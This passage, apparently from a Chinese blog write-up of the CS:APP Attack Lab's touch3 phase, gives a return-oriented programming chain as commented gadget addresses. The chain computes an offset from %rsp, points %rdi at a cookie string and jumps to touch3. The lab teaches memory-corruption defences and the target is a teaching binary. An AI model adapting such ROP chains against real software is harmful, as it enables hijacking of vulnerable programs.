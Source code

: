 &emsp;&emsp;反复用这几个小工具，就可以在寄存器中辗转得到想要的32：

```assembly
94 19 40 00 00 00 00 00   # mov $0x1,%eax
c6 19 40 00 00 00 00 00   # movq %rax,%rdi
42 1a 40 00 00 00 00 00   # movl %eax,%edx
34 1a 40 00 00 00 00 00   # movl %edx,%ecx
27 1a 40 00 00 00 00 00   # movl %ecx,%esi
d6 19 40 00 00 00 00 00   # add_xy operation, %rax=%rdi+%rsi, add 1 to %rax
# through the step, %rax, %rdx, %rcx, rsi equals 1

c6 19 40 00 00 00 00 00   # movq %rax,%rdi
42 1a 40 00 00 00 00 00   # movl %eax,%edx
34 1a 40 00 00 00 00 00   # movl %edx,%ecx
27 1a 40 00 00 00 00 00   # movl %ecx,%esi
d6 19 40 00 00 00 00 00   # add_xy operation, %rax=%rdi+%rsi, add 1 to %rax
......
```

&emsp;&emsp;得到32后，我们需要让`%rdi=%rsp+32`，可以通过如下方式辗转实现（具体小工具略过）：

```assembly
06 1a 40 00 00 00 00 00   # movl %esp,%eax, since the %esp isn't involved in above calculation, it still stores the original value
c5 19 40 00 00 00 00 00   # movq %rax %rdi, %rdi is reseted, too
d6 19 40 00 00 00 00 00   # add_xy, set %rax to %rdi+32
c5 19 40 00 00 00 00 00   # movq %rax %rdi, thus %rdi points to the start of the string
```

&emsp;&emsp;最后放入`touch3`的地址和cookie的ascii表示即可：

```assembly
fa 18 40 00 00 00 00 00   # address of touch3
35 39 62 39 39 37 66 61   # ascii of cookie
```